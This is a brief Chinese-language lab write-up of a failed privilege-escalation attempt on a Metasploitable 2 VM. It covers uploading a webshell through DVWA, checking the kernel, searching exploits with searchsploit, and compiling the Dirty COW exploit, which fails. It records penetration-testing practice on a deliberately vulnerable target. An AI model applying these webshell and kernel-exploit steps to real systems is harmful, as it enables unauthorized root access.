 ## metasploit_table2提权

2019-5-15

通过dvwa上传了webshell文件

蚁剑连过去，`uname -a` 查看内核版本信息

```
当前路径: /var/www/dvwa/hackable/uploads
磁盘列表: /
系统信息: Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
当前用户: www-data
(www-data:/var/www/dvwa/hackable/uploads) $ uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

kali `searchsploit privilege | grep linux  | grep 2.6`搜索提权exp

搜到很多exp，这里先试试`exploits/linux/local/40616.c`

```
Linux Kernel 2.6.22 < 3.9 (x86/x64)
'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)             exploits/linux/local/40616.c
```

打开文件，注释里有使用说明和条件要求

```c
//40616.c
/*........
* (un)comment correct payload first (x86 or x64)!
*
* $ gcc cowroot.c -o cowroot -pthread
* $ ./cowroot
....*/
```

根据要求，i686为32位机器，注释掉了64位的payload，取消注释32位的payload，然后上传上去

```shell
(www-data:/var/www/dvwa/hackable/uploads) $ gcc 40616.c -o cowroot -pthread
40616.c: In function 'procselfmemThread':
40616.c:101: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast
40616.c: In function 'main':
40616.c:144: error: invalid use of undefined type 'struct stat'
40616.c:146: error: invalid use of undefined type 'struct stat'
40616.c:147: error: invalid use of undefined type 'struct stat'
40616.c:150: error: invalid use of undefined type 'struct stat'
```

emmm，加上缺少的头文件还是提权失败，换个exp



